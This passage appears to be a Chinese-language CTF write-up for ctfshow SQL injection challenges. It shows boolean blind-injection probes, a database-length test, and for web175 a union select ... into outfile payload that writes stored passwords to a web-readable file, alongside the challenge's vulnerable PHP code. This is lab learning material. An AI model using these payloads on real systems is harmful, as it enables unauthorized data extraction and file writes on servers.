 #### 思路二

根据以下测试语句的回显构造盲注

```
1' and 1=1--+     //返回页面有 admin 字符串
1' and 1=2--+     //返回页面有 无数据 字符串
```

```
1' OR 1=1 -- +    //OR后面条件为真，页面返回userAUTO
1' OR 1=2 -- +    //OR后面条件为假，页面返回不包含userAUTO
// 用 like 替换 or也行              
```

测试一下，发现数据库长度为 11

```
1' and 1=if(length(database())=11,1,0) --+
```

这个仍要替换结果中的数字

## web175

### 题目

sql 语句无过滤，但是回显的值有过滤

```
//查询语句
//拼接sql语句查找指定ID用户
$sql = "select username,password from ctfshow_user5 where username !='flag' and id = '".$_GET['id']."' limit 1;";
      
//返回逻辑
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }      
```

sql 注入写文件，把 password 写到文件里再查看，就无所谓返回值被过滤了

```
1' union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt' --+
```

<img src="图片\Snipaste_2023-01-24_12-23-01.png" alt="Snipaste_2023-01-24_12-23-01" style="zoom:67%;" />
